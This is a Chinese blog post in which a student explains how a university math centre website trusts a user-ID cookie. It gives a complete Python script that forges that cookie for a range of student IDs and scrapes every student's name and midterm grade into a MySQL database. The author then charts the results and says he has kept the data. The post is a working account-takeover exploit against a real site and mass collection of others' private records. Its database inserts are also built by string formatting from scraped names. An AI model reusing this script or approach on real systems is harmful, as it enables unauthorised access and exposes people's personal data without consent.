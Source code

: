 ```yaml
---
layout: article
title: 期中成绩爬虫
mathjax: true
key: 2016-05-07-mid-score
---
```


# 背景

今天进行了期中考试，考完之后看他们在查别人的成绩，一个一个的查真痛苦→_→，于是我就想，这不是正好这几天在尝试爬虫，那我就写个爬虫获取一下整个学院的人的成绩吧

<!--more-->

# 过程

本来还想着，这次可不是微博那种一个Cookie闯天下，得好好看看模拟登陆是怎么回事了，结果，之后我就惊呆了！

打开[数学中心的网站](http://centermath.hit.edu.cn/)，登陆，看看Cookie，内容如下:


|Name                |Content                 |
|--------------------|------------------------|
|CourseID            |0                       |
|ASPSESSIONIDQABRRRSB|JEELCIDDJDFNHKEGNDJKJMOE|
|CWUserLogined       |1                       |
|photo               |boy%2Egif               |
|trueName            |%D1%A6%D6%D9%BA%C0      |
|userKind            |student                 |
|userName            |115××××××6              |

欸？貌似只有个userName可以认定这到底是谁登陆的啊，trueName是名字的gb2312码，这个应该作用不大，毕竟有重名。

真正需要的成绩信息是点击**在线测试**后得到那个网页，按F12，看看源码，这网址也是固定的，就是在[数学中心网站](http://centermath.hit.edu.cn/)的后面加上“zxcs”，这名字起的，浓浓中国风啊(￣▽￣)"

我决定拿python获取一下这个在线测试的网页，获取的时候headers里直接加上cookie。就在此时，抱着试一试的心态，悄悄把cookie中的userName改成了115××××××7，获取网页，居然成功了！！！

我去，此刻我终于明白了为什么那么多人的爬虫都起步于学校的网站(⊙o⊙)，我就改一下数字就进入了别人的账号？？那密码根本就是搞笑的嘛，为因为忘记密码而影响考试的同学默哀。

既然网页都获取到了，剩下的步骤就很简单了，穷举学号，获取网页，正则提取成绩即可

# 代码

代码是用python写的，其实爬虫我只会python，真的是不要太方便。

我还顺便把这些存到数据库里了，方便以后查询ˇ∀ˇ

```python
import urllib.request
import mysql.connector
import re
import time

#Initialization
print('Initializing...', end='')
address = 'http://centermath.hit.edu.cn/zxcs/'
user_agent = 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0'
cookie_head = 'CourseID=0; ASPSESSIONIDQABRRRSB=LGAKCIDDEBIJFFPDGLNNNHPI; CWUserLogined=1; photo=boy%2Egif; trueName=%C2%ED%C8%FC%BF%CB; userKind=student; userName='
pattern = re.compile(r'<div class="regards">.*?：(.*?)&.*?</div>.*?<a href="javascript:void\(0\)".*?>(.*?)</a>', re.S)
print('[Done]')

#Database|MySQL
print('Connecting to the database...', end='')
conn = mysql.connector.connect(user='root', database='samp_db')
cur = conn.cursor()
print('[Done]')

begin = int(input('Input the begin:'))
end   = int(input('Input  the  end:'))

for i in range(begin, end+1):
    print('Request for ID:%d...' % i, end='')
    cur.execute(("select * from students where id = %d" % i))
    ans = cur.fetchall()
    if(len(ans) > 0):
        print('[Exists](%s, %d)' % ans[0][1:])
    else:
        cookie = cookie_head + str(i)
        headers = {
            'User-Agent': user_agent,
            'Cookie': cookie,
            }
        request = urllib.request.Request(address, headers = headers)
        try:
            response = urllib.request.urlopen(request)
            time.sleep(1)
        except urllib.request.URLError as e:
            if hasattr(e, 'code'):
                print(e.code)
            if hasattr(e, 'reason'):
                print(e.reason)
        try:
            st = response.read().decode('gb2312')
        except:
            print('[Read Error]')
            cur.execute(("insert into students(id, name, score) values (%d, '%s', %s)" % (i, 'None', 0)))
            conn.commit()
            continue            
        st = re.findall(pattern, st)
        if(len(st) > 0):
            st = st[0]
            print('[Done](%s, %s)' % st)
            cur.execute(("insert into students(id, name, score) values (%d, '%s', %s)" % (i, st[0], st[1])))
            conn.commit()
        else:
            print('[Not Found]')

cur.close()
conn.close()

```

# 简单分析

现在的学霸真是越来越多了，受不了的好吧，考个18分只是勉强过得去，16分排名就三位数了！→_→

凡是有成绩的同学，最低分8分，有7个人没有成绩，可能是旷考或者考的时候出问题了。

<img src="{{ site.baseurl }}/assets/images/mid_score1.jpg" />

上面这个图是来用[Raw](http://raw.densitydesign.org/)制作出来的，看起来很高端，但貌似效果并不好。好吧，于是又做了一个简单粗暴，通俗易懂的柱状图&折线图。

<img src="{{ site.baseurl }}/assets/images/mid_score2.png" />

至此，爬取同学们的成绩就结束了。（但数据我保留下来了，hiahia~）